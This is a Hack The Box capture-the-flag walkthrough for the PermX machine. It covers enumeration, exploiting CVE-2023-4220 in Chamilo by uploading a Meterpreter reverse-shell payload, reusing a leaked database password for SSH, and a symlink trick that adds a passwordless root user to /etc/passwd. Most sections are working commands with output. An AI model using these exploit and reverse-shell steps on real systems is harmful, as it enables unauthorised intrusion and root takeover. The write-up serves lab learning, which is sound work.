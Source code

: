 # Target
| Category          | Details                                               |
|-------------------|-------------------------------------------------------|
| 📝 **Name**       | [PermX](https://app.hackthebox.com/machines/PermX)    |  
| 🏷 **Type**       | HTB Machine                                           |
| 🖥 **OS**         | Linux                                                 |
| 🎯 **Difficulty** | Easy                                                  |
| 📁 **Tags**       | PHP, Chamilo, CVE-2023-4220, Metasploit, symlink, ACL |

# Scan
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Attack path
1. [Enumerate web application](#enumerate-web-application)
2. [Gain initial access by exploiting (CVE-2023-4220)](#gain-initial-access-by-exploiting-cve-2023-4220)
3. [Escalate to `mtz` user using discovered credentials](#escalate-to-mtz-user-using-discovered-credentials)
4. [Escalate to `root` user vulnerability in `/opt/acl.sh` script](#escalate-to-root-user-vulnerability-in-optaclsh-script)

### Enumerate web application

#### Add `permx.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ echo "$TARGET permx.htb" | sudo tee -a /etc/hosts
10.129.254.50 permx.htb
```

#### Enumerate virtual hosts
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ ffuf -r -u http://permx.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" -mc 200 -fs 36182

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 36182
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 2732ms]
```

#### Add discovered `lms` virtual host to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ echo "$TARGET lms.permx.htb" | sudo tee -a /etc/hosts
10.129.254.50 lms.permx.htb
```

#### Discover vulnerable version of Chamilo
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ curl http://lms.permx.htb/README.md                                          
# Chamilo 1.11.x
```

### Gain initial access by exploiting [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220)

#### Generate `php/meterpreter_reverse_tcp` reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
msfvenom -p php/meterpreter_reverse_tcp LHOST=$LHOST LPORT=4444 -f raw -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 34925 bytes
Saved as: shell.php
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload php/meterpreter_reverse_tcp; run"        
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => php/meterpreter_reverse_tcp
[*] Started reverse TCP handler on 10.10.14.161:4444 
```

#### Upload and execute generated reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ curl -s http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported -F "bigUploadFile=@shell.php" -o /dev/null && \
curl http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php
```

#### Gain access
```
[*] Meterpreter session 1 opened (10.10.14.161:4444 -> 10.129.254.50:47432) at 2025-05-30 14:29:34 +0200

meterpreter > getuid
Server username: www-data
```

### Escalate to `mtz` user using discovered credentials
Password discovered with `linpeas.sh`
```
grep -A7 "Database connection settings" /var/www/chamilo/app/config/configuration.php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

#### User discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB PermX]
└─$ ssh mtz@permx.htb
<SNIP>
mtz@permx:~$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
```

### Escalate to `root` user vulnerability in `/opt/acl.sh` script

#### List allowed sudo commands
```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

#### Locate symlink vulnerability in `/opt/acl.sh`
Vulnerability exists in line 12, as no symlink check is in place.
```
mtz@permx:~$ cat -n /opt/acl.sh 
     1  #!/bin/bash
     2
     3  if [ "$#" -ne 3 ]; then
     4      /usr/bin/echo "Usage: $0 user perm file"
     5      exit 1
     6  fi
     7
     8  user="$1"
     9  perm="$2"
    10  target="$3"
    11
    12  if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    13      /usr/bin/echo "Access denied."
    14      exit 1
    15  fi
    16
    17  # Check if the path is a file
    18  if [ ! -f "$target" ]; then
    19      /usr/bin/echo "Target must be a file."
    20      exit 1
    21  fi
    22
    23  /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

#### Exploit vulnerability
```
mtz@permx:~$ ln -s /etc /home/mtz/etc && \
sudo /opt/acl.sh mtz rw /home/mtz/etc/passwd && \
echo 'hacker::0:0:root:/root:/bin/bash' >> /etc/passwd && \
su hacker
root@permx:/home/mtz# id
uid=0(root) gid=0(root) groups=0(root)
```
